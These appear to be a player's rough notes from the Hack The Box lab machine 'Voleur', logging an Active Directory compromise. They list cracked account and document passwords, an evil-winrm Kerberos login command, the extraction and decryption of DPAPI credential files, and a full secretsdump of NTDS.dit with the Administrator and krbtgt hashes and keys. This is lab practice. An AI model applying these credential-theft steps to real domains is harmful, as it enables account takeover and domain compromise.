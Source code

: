 ___


*start creds*
ryan.naylor / HollowOct31Nyt


used nxc smb to request TGT

use klist to list kerberos tickets and their info 


the smb service is configured to only accept kerberus authentication

when user and pass work you are directly authenticating to smb service with user and pass 




use office2john.py to extract hash from document



doc pass
Access_Review.xlsx:football1



svc_ldap
P/W - M1XyC9pW7qT5Vn


svc_iis
P/W - N5pXyW1VqM7CZ8



*in remote management group but pass was deleted*
Todd.Wolfe
NightT1meP1dg3on14



*winrm-broken-hash*
?:AFireInsidedeOzarctica980219afi




*this worked for win-rm* -> this has to b the most ugly command I have ever written

KRB5CCNAME=./svc_winrm.ccache sudo docker run --rm -it -v "/home/ew/box/Voleur/svc_winrm.ccache:/tmp/krb5cc_0" -v "/home/ew/box/Voleur/krb5.conf:/etc/krb5.conf" -v "/etc/hosts:/etc/hosts:ro" evil-winrm -i dc.voleur.htb -k -u svc_winrm -r VOLEUR.HTB 




*folders to check for user data in /AppData directory*

```shell
get /Second-Line Support/Archived Users/todd.wolfe/AppData/Roaming/Microsoft/Protect/S-1-5-21-3927696377-1337352550-2781715495-1110/08949382-134f-4c63-b93c-ce52efc0aa88

get /Second-Line Support/Archived Users/todd.wolfe/AppData/Roaming/Microsoft/Credentials/772275FAD58525253490A9B0039791D3
```



*use this tool  to crack dpapi key -> (data protection API) *
```shell
impacket-dpapi
```


its the key in the /protect folder


then use the tool to crack the user credentials in the /credentials folder



#dumped NTDS.dit


secretsdump.py -ntds ntds.dit -system SYSTEM local 
/usr/lib/python3.13/site-packages/impacket/version.py:12: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  import pkg_resources
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0xbbdd1a32433b87bcc9b875321b883d2d
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 898238e1ccd2ac0016a18c53f4569f40
[*] Reading and decrypting hashes from ntds.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e656e07c56d831611b577b160b259ad2:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DC$:1000:aad3b435b51404eeaad3b435b51404ee:d5db085d469e3181935d311b72634d77:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:5aeef2c641148f9173d663be744e323c:::
voleur.htb\ryan.naylor:1103:aad3b435b51404eeaad3b435b51404ee:3988a78c5a072b0a84065a809976ef16:::
voleur.htb\marie.bryant:1104:aad3b435b51404eeaad3b435b51404ee:53978ec648d3670b1b83dd0b5052d5f8:::
voleur.htb\lacey.miller:1105:aad3b435b51404eeaad3b435b51404ee:2ecfe5b9b7e1aa2df942dc108f749dd3:::
voleur.htb\svc_ldap:1106:aad3b435b51404eeaad3b435b51404ee:0493398c124f7af8c1184f9dd80c1307:::
voleur.htb\svc_backup:1107:aad3b435b51404eeaad3b435b51404ee:f44fe33f650443235b2798c72027c573:::
voleur.htb\svc_iis:1108:aad3b435b51404eeaad3b435b51404ee:246566da92d43a35bdea2b0c18c89410:::
voleur.htb\jeremy.combs:1109:aad3b435b51404eeaad3b435b51404ee:7b4c3ae2cbd5d74b7055b7f64c0b3b4c:::
voleur.htb\svc_winrm:1601:aad3b435b51404eeaad3b435b51404ee:5d7e37717757433b4780079ee9b1d421:::
[*] Kerberos keys from ntds.dit 
Administrator:aes256-cts-hmac-sha1-96:f577668d58955ab962be9a489c032f06d84f3b66cc05de37716cac917acbeebb
Administrator:aes128-cts-hmac-sha1-96:38af4c8667c90d19b286c7af861b10cc
Administrator:des-cbc-md5:459d836b9edcd6b0
DC$:aes256-cts-hmac-sha1-96:65d713fde9ec5e1b1fd9144ebddb43221123c44e00c9dacd8bfc2cc7b00908b7
DC$:aes128-cts-hmac-sha1-96:fa76ee3b2757db16b99ffa087f451782
DC$:des-cbc-md5:64e05b6d1abff1c8
krbtgt:aes256-cts-hmac-sha1-96:2500eceb45dd5d23a2e98487ae528beb0b6f3712f243eeb0134e7d0b5b25b145
krbtgt:aes128-cts-hmac-sha1-96:04e5e22b0af794abb2402c97d535c211
krbtgt:des-cbc-md5:34ae31d073f86d20
voleur.htb\ryan.naylor:aes256-cts-hmac-sha1-96:0923b1bd1e31a3e62bb3a55c74743ae76d27b296220b6899073cc457191fdc74
voleur.htb\ryan.naylor:aes128-cts-hmac-sha1-96:6417577cdfc92003ade09833a87aa2d1
voleur.htb\ryan.naylor:des-cbc-md5:4376f7917a197a5b
voleur.htb\marie.bryant:aes256-cts-hmac-sha1-96:d8cb903cf9da9edd3f7b98cfcdb3d36fc3b5ad8f6f85ba816cc05e8b8795b15d
voleur.htb\marie.bryant:aes128-cts-hmac-sha1-96:a65a1d9383e664e82f74835d5953410f
voleur.htb\marie.bryant:des-cbc-md5:cdf1492604d3a220
voleur.htb\lacey.miller:aes256-cts-hmac-sha1-96:1b71b8173a25092bcd772f41d3a87aec938b319d6168c60fd433be52ee1ad9e9
voleur.htb\lacey.miller:aes128-cts-hmac-sha1-96:aa4ac73ae6f67d1ab538addadef53066
voleur.htb\lacey.miller:des-cbc-md5:6eef922076ba7675
voleur.htb\svc_ldap:aes256-cts-hmac-sha1-96:2f1281f5992200abb7adad44a91fa06e91185adda6d18bac73cbf0b8dfaa5910
voleur.htb\svc_ldap:aes128-cts-hmac-sha1-96:7841f6f3e4fe9fdff6ba8c36e8edb69f
voleur.htb\svc_ldap:des-cbc-md5:1ab0fbfeeaef5776
voleur.htb\svc_backup:aes256-cts-hmac-sha1-96:c0e9b919f92f8d14a7948bf3054a7988d6d01324813a69181cc44bb5d409786f
voleur.htb\svc_backup:aes128-cts-hmac-sha1-96:d6e19577c07b71eb8de65ec051cf4ddd
voleur.htb\svc_backup:des-cbc-md5:7ab513f8ab7f765e
voleur.htb\svc_iis:aes256-cts-hmac-sha1-96:77f1ce6c111fb2e712d814cdf8023f4e9c168841a706acacbaff4c4ecc772258
voleur.htb\svc_iis:aes128-cts-hmac-sha1-96:265363402ca1d4c6bd230f67137c1395
voleur.htb\svc_iis:des-cbc-md5:70ce25431c577f92
voleur.htb\jeremy.combs:aes256-cts-hmac-sha1-96:8bbb5ef576ea115a5d36348f7aa1a5e4ea70f7e74cd77c07aee3e9760557baa0
voleur.htb\jeremy.combs:aes128-cts-hmac-sha1-96:b70ef221c7ea1b59a4cfca2d857f8a27
voleur.htb\jeremy.combs:des-cbc-md5:192f702abff75257
voleur.htb\svc_winrm:aes256-cts-hmac-sha1-96:6285ca8b7770d08d625e437ee8a4e7ee6994eccc579276a24387470eaddce114
voleur.htb\svc_winrm:aes128-cts-hmac-sha1-96:f21998eb094707a8a3bac122cb80b831
voleur.htb\svc_winrm:des-cbc-md5:32b61fb92a7010ab
[*] Cleaning up... 




